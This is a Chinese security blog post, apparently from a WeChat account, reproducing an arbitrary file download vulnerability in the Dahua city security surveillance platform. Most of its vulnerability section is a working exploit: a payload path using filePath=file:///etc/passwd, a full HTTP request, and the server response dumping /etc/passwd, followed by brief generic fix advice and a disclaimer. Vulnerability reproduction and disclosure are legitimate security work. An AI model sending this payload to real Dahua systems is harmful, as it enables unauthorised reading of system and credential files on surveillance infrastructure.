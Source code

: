 #  大华 城市安防监控系统平台管理 任意文件下载漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#监控系统 1 个

#漏洞 33 个

#漏洞复现 39 个

#复现 24 个

#文件读取 12 个

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

 **漏洞说明**

大华城市安防监控系统平台是一款集视频、报警、存储、管理于一体的综合安防解决方案。该平台支持多种接入方式，包括网络视频、模拟视频、数字视频、IP电话、对讲机等。此外，该平台还支持多种报警方式，包括移动侦测、区域入侵、越线报警、人员聚集等。

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

 **影响版本**

  * 

    
    
     大华城市安防监控系统平台管理

 **漏洞复现**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175535.png)

payload:

  * 

    
    
    /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd

请求包：  

  *   *   *   *   *   *   *   * 

    
    
    GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1Host: ip:portUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close

响应包：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKServer: Apache-Coyote/1.1Set-Cookie: JSESSIONID=23A98843BC5D957E2E1F65C0ED593393; Path=/portalContent-disposition: attachment;filename=passwdDate: Sun, 09 Jul 2023 23:57:00 GMTConnection: close  
    root:x:0:0:root:/root:/bin/bashbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemon:/sbin:/sbin/nologinadm:x:3:4:adm:/var/adm:/sbin/nologinlp:x:4:7:lp:/var/spool/lpd:/sbin/nologinsync:x:5:0:sync:/sbin:/bin/syncshutdown:x:6:0:shutdown:/sbin:/sbin/shutdownhalt:x:7:0:halt:/sbin:/sbin/haltmail:x:8:12:mail:/var/spool/mail:/sbin/nologinnews:x:9:13:news:/etc/news:uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologinoperator:x:11:0:operator:/root:/sbin/nologingames:x:12:100:games:/usr/games:/sbin/nologingopher:x:13:30:gopher:/var/gopher:/sbin/nologinftp:x:14:50:FTP User:/var/ftp:/sbin/nologinnobody:x:99:99:Nobody:/:/sbin/nologindbus:x:81:81:System message bus:/:/sbin/nologinvcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologinnscd:x:28:28:NSCD Daemon:/:/sbin/nologinrpm:x:37:37::/var/lib/rpm:/sbin/nologinhaldaemon:x:68:68:HAL daemon:/:/sbin/nologinnetdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bashident:x:98:98::/home/ident:/sbin/nologinsshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologinrpc:x:32:32:Portmapper RPC user:/:/sbin/nologinrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologinnfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologinmailnull:x:47:47::/var/spool/mqueue:/sbin/nologinsmmsp:x:51:51::/var/spool/mqueue:/sbin/nologinpcap:x:77:77::/var/arpwatch:/sbin/nologinapache:x:48:48:Apache:/var/www:/sbin/nologinsquid:x:23:23::/var/spool/squid:/sbin/nologinwebalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologinxfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologinntp:x:38:38::/etc/ntp:/sbin/nologingdm:x:42:42::/var/gdm:/sbin/nologinhtt:x:100:101:IIIMF Htt:/usr/lib/im:/sbin/nologinpvm:x:24:24::/usr/share/pvm3:/bin/bashcanna:x:39:39:Canna Service User:/var/lib/canna:/sbin/nologinwnn:x:49:49:Wnn Input Server:/var/lib/wnn:/sbin/nologinquagga:x:92:92:Quagga routing suite:/var/run/quagga:/sbin/nologincyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bashdovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologinpostfix:x:89:89::/var/spool/postfix:/sbin/nologinmailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologinpostgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bashamanda:x:33:6:Amanda user:/var/lib/amanda:/bin/bashfax:x:78:78:mgetty fax spool user:/var/spool/fax:/sbin/nologinnamed:x:25:25:Named:/var/named:/sbin/nologinexim:x:93:93::/var/spool/exim:/sbin/nologinldap:x:55:55:LDAP User:/var/lib/ldap:/bin/falseradiusd:x:95:95:radiusd user:/:/bin/falseradvd:x:75:75:radvd user:/:/sbin/nologinadmin:x:506:506:root:/home/admin:/etc/dh_cli/debugguest:x:507:507:Linux User,,,:/home/guest:/bin/nologinftpuser:x:508:508:Linux User,,,:/home/ftpuser:/bin/nologindh_admin:x:509:509:Linux User,,,:/home/dh_admin:/etc/dh_cli/debugmysql:x:501:501::/home/mysql:/sbin/nologinsystem:x:510:510:Linux User,,,:/home/system:/sbin/nologindss:x:1000:1000:Linux User,,,:/opt/ftp:/sbin/nologinlog:x:1001:1001:Linux User,,,:/log:/bin/sh

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175536.png)

 **修复建议**  

配置文件：在配置文件中限制访问的文件目录，比如 PHP 中 php.ini 配置 open_basedir  
特殊字符过滤：检查用户输入，过滤或转义含有“../”、“..\”、“%00”，“..”，“./”，“#”等跳转目录或字符终止符、截断字符的输入  
合法性判断：严格过滤用户输入字符的合法性，比如文件类型、文件地址、文件内容等  
白名单：白名单限定访问文件的路径、名称及后缀名  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

